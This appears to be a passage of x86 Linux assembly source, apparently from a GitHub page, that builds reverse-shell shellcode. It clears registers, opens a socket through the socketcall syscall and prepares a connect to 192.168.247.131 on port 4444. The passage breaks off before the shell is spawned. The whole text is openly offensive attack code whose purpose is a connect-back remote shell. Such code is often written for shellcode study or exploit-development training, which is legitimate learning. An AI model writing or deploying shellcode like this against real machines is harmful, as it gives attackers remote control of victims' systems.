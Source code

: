 ```asm
global _start

section .text

_start:
	
	; clear registers
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx


	;***************;
	; create socket ;
	;***************;


	; 0x66 for socketcall
	mov al, 0x66

	;0x1 for socket
	mov bl, 0x1
	

	push ecx	; 0x0
	push ebx	; 0x1 SOCK_STREAM

	push 0x2	; AF_INET

	; point ecx to the stack for args
	mov ecx, esp
	int 0x80	; socketcall(SYS_SOCKET, {AF_INET, SOCK_STREAM, 0})

	; keep sockfd for later
	mov edi, eax


	;************************;
	; connect to ip and port ;
	;************************;


	; 0x66 for socketcall
	mov al, 0x66

	inc ebx
	
	; push struct to stack
	push 0x83f7a8c0		; ip: aton(192.168.247.131)

	push word 0x5C11	; port: htons(4444) - 0x5C11
	push bx			; AF_INET - 0x2

	inc ebx			; 0x3 SYS_CONNECT

	; store reference to struct
	mov ecx, esp

	; push connect args
	push 0x10	; size of struct
	push ecx	; struct sock_addr
	push edi	; sockfd
```